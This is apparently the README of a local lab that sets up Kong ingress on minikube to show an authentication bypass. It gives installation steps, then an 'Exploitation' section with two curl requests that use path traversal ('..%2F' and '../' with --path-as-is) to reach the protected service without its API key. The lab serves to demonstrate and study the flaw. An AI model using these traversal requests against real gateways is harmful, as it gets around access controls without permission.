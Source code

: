 # Installation

* install minikube
* create namespace: `kubectl create ns kong`
* create external auth plugin in configMap: `kubectl create configmap kong-external-auth-plugin --from-file=kong-external-auth-plugin -n kong`
* install kong ingress `helm install kong/kong -n kong --generate-name --set ingressController.installCRDs=false --values values.yaml --version 2.6.0`
* wait for it to run all pods and services
* add `127.0.0.1 app.test` to /etc/hosts
* apply kong plugins config: `kubectl apply -f plugins.yaml`
* apply kubernetes configuration: `kubectl apply -f app.yaml`
* run `minikube tunnel`

### Optional steps to build custom docker images:

* build docker images:
  * `cd auth-service; docker build -t auth-service:0.0.2-kong .`
  * `cd protected-service; docker build -t protected-service:0.0.1 .`
  * `cd public-service; docker build -t public-service:0.0.1 .`
* push docker images into minikube:
  * `minikube image load auth-service:0.0.2-kong`
  * `minikube image load protected-service:0.0.1`
  * `minikube image load public-service:0.0.1`

# Exploitation

To access public service: `curl -v http://app.test/public-service/public`

To access protected service: `curl -v http://app.test/protected-service/protected -H "X-Api-Key: secret-api-key"`

To access protected service bypassing authentication: `curl -v http://app.test/public-service/..%2Fprotected-service/protected`
To access protected service bypassing authentication: `curl --path-as-is -v http://app.test/public-service/../protected-service/protected`
